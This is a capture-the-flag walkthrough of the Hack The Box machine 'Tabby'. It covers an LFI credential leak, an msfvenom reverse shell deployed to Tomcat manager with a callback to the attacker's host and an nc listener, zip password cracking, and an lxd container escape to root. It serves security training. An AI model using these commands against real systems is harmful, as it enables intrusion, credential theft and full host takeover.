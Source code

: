 ```yaml
---
title: Tabby
author: 0xfinlay
date: 2020-11-07 15:00:00
categories: [hack-the-box, linux]
tags: [hack-the-box, easy, linux, bash, web, http, tomcat, lfi, zip, crack, password, lxd, root]
---
```


![cover](/assets/img/posts/tabby/cover.png)

Tabby is an easy box that involved using LFI to find Tomcat credentials, then using these credentials to upload a reverse shell. To get user, we brute forced a password on a backup zip file and using this password to switch user and get the user flag. Then using lxd to privilege escalate to root.

# Overview
- Enumeration of the target
- Using LFI to find credentials
- Using the credentials to upload a reverse shell
- Discovering the backup zip file and cracking the password
- Using the password to switch to ash
- user.txt
- Using lxd to privilege escalate
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~/htb/tabby$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.194
Host is up (0.054s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```

We can see ssh, a website, and an Apache Tomcat interface on port 8080. Let's start by enumerating the website.

## Website

![website](/assets/img/posts/tabby/website.png)

Looking around we find a news page on the navigation bar, if we click on it, it takes us to `http://megahosting.htb/news.php?file=statement`. If we add `megahosting.htb` to our /etc/hosts file, we can see what's on the page.

![website](/assets/img/posts/tabby/news.png)

We can do an LFI attack on this page to read various files on the target. For example to read /etc/passwd:

![passwd](/assets/img/posts/tabby/passwd.png)

After doing some research, we find that apache tomcat credentials are stored in `/usr/share/tomcat9/etc/tomcat-users.xml`. If we read this file and view the source, we can find the password: `$3cureP4s5w0rd123!`.

![creds](/assets/img/posts/tabby/creds.png)

# Exploitation

## Getting a shell

Now we can upload and execute a java reverse shell.

First, we need to create the shell, I used `msfvenom`.

```bash
finlay@kali:~/htb/tabby$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f war > shell.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

Second, we can upload the shell with `curl`

```bash
finlay@kali:~/htb/tabby$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'
OK - Deployed application at context path [/shell]
```

Then, we can set up a listener on the port we specified earlier.

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, we get the target to execute our shell:

```bash
finlay@kali:~/htb/tabby$ curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/shell/
```

And we see that we get a shell on our listener:

![tomcat_shell](/assets/img/posts/tabby/tomcat_shell.png)

## Getting user

If we search around on the box, we find a file called `16162020_backup.zip`. I transferred it back to my box using netcat to take a closer look.

If we try to unzip it, it requires a password. We can crack this password with `fcrackzip`.

```bash
finlay@kali:~/htb/tabby$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
possible pw found: admin@it ()
```

After unzipping the file with this password, we don't find anything interesting, but we can try using this password to switch to the ash user.

![user_shell](/assets/img/posts/tabby/user_shell.png)

## User.txt

It worked! Now we can find the user flag in /home/ash

![user_flag](/assets/img/posts/tabby/user_flag.png)

# Privilege Escalation

To learn how to get root, [this](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2) article was very helpful.

First, we need to build an lxd image locally.

```bash
finlay@kali:~/htb/tabby$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 221.00 KiB/s, done.
finlay@kali:~/htb/tabby$ cd lxd-alpine-builder/
finlay@kali:~/htb/tabby/lxd-alpine-builder$ ls
build-alpine  LICENSE  README.md
finlay@kali:~/htb/tabby/lxd-alpine-builder$ sudo bash build-alpine
...
finlay@kali:~/htb/tabby/lxd-alpine-builder$ ls
alpine-v3.12-x86_64-20201105_1332.tar.gz  build-alpine  LICENSE  README.md
```

Now we need to transfer to `.tar.gz` file to the target, I did this with a python http server.

Second, we need to import the image:

```bash
ash@tabby:/tmp/tmp$ lxc image import ./alpine-v3.12-x86_64-20201105_1332.tar.gz --alias myimage
Image imported with fingerprint: 1df12bda1e3adf92657618cd3b2e0e4667d544e342226004aaca19705209ed60
```

Third, we need to run the image:

```bash
ash@tabby:/tmp/tmp$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
```

Then, we can mount /root into the image:

```bash
ash@tabby:/tmp/tmp$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
```

Finally, we can interact with the container:

```bash
ash@tabby:/tmp/tmp$ lxc start mycontainer
ash@tabby:/tmp/tmp$ lxc exec mycontainer /bin/sh
~ # whoami
root
```

## Root.txt

And we find the root flag in /mnt/root/root

![root_flag](/assets/img/posts/tabby/root_flag.png)
